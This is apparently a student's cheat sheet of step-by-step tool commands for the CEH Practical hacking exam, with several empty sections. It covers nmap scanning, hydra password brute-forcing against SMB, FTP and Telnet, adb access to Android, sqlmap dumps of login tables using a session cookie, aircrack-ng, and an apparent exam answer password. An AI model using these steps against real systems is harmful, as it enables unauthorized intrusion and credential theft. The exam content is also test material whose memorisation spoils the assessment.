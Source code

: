 # CEH PRACTICAL
# 1 FQDN
* nmap -p389 -sV (subnet) -Pn
           OR
* nmap -A <subnet> -Pn

# 2 WAMP SERVER
* nmap -A -sV -p 80,8080,443 (subnet)

# 3 SMB 
* nmap -p 445 (subnet)
* hydra -l Henry -P (password.txt file on desktop) (ip) smb
* smbclient -L ip -p 1445 -U Henry
* smbclient -L //ip/Home -p 1445 -U Henry
* get (file name) password same as Henry
* if file contains hash decode it

# 4 Android
* namp -p 5555 (subnet) -Pn
* adb connect (ip):5555
* adb shell
* ls (find the folder scan)
* after finding scan coppy rhe directory
* exit
* adb pull (paste the directory)(be a root user)
* cd Scan
* ls
* ent (file1)
* ent (file2)
* ent (file3)
* sha384sum (file with highest ent)

# 5 SEVERITY
* nmap -Pn --script vuln (ip)
* CVE check on google nvd.nist.gov

# 6 REMOTE LOGIN SENSITIVE FILE
* nmamp (subnet) -Pn
* ( find ip with FTP or Telnet)
* hydra -L (username.txt) -P (password.txt) (ip) telnet
                          OR
* hydra -L (username.txt) -P (password.txt) (ip) ftp
* telnet (ip)
     OR
* ftp (ip)
* ls
* get NetworkPass.txt

# 7  STEGNOGRAPHY
* login into given machine
* open openstego
* extract data
* output on desktop
* password "imagination"

# 8 FTP
* nmamp (subnet) -Pn
* hydra -L (username.txt) -P (password.txt) (ip) ftp
* ftp (ip)
* ls
* get Credential.txt
* cat Credential.txt

# 9 PRIVILEGE ESCALATION
* 

# 10 ENTRYPOINT ADRDRESS
* login into ggiven machine
* open DIE (detect it easy)
* open the given file in DIE
* File Info option

# 11 DDOS 
* open the file in wireshark
* statistics option
* IP v4 statistics
* Source and Destination
* tcp.flags.syn == 1 and tcp.flags.ack == 0

# 12 SQL injection PASSWORD
* login in website
* view profile tab and note the url
* inspect
* console type (document.cookie)
* terminal
* be a root user
* sqlmap -u "(url)" --cookie="(cookie val)" --dbbs
* yes for all
* sqlmap -u "(url)" --cookie="(cookie val)" -D (website name) --tables
* sqlmap -u "(url)" --cookie="(cookie val)" -D (website name) -T (longin table) --dump

# 13 

# 14

# 15

# 16 HASH,DVWA
* login with credentials
* go to file and download
* open the file coppy hash and paste in hashes.com or crackstation.com

# 17 IOT TRAFFIC
* open the file in wireshark
* mqtt (in the filter option) 
* click on publish message
* mqtt protocol

# 18 WIFI
* aircrack-ng -w(password file directory) (file directory) 

# 19 
